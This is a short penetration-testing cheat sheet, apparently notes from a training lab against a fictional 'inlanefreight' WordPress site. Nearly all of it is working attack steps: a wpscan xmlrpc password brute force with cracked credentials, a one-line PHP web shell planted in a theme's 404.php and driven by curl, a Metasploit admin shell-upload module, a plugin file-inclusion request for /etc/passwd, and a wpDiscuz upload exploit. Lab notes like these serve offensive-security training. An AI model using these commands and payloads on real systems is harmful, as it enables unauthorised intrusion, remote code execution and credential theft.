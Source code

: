 ## Login Bruteforce
```
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
- Valid credentials = john:firebird1
- Admin access to themes
- Visit /wp-admin/ and login
- Go to Appearance > Theme Editor
- Choose an inactive theme, like twentynineteen
- Edit uncommon page, like 404.php

## Code Execution
```php
system($_GET[0]);
```
- Place this in 404.php
- Click on Update File

```
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

**Metasploit
```
use exploit/unix/webapp/wp_admin_shell_upload
set username john
set password firebird1
set lhost 10.10.14.15
set rhost 10.129.42.195
set VHOST blog.inlanefreight.local
show options
exploit
```

**Appendix
- Exploited systems
- Compromised users
- Artifacts created on systems
- Changes


## Leveraging Known Vulnerabilities

Vulnerabilities:
- 4% WordPress core
- 89% plugins
- 7% themes

**Vulnerable Plugins - mail-masta
```
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

**Vulnerable Plugins - wpDiscuz
https://www.exploit-db.com/exploits/49967
```
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

